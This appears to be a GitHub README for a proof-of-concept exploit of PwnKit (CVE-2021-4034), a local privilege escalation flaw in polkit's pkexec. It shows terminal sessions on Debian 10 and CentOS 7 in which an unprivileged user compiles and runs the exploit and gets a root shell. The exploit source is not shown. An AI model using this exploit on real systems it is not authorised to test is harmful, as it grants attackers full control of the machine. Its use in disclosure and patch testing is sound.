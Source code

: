 # CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  

# PoC

Verified on Debian 10 and CentOS 7.

```
ashish@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
ashish@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[ashish@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[ashish@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[ashish@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[ashish@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
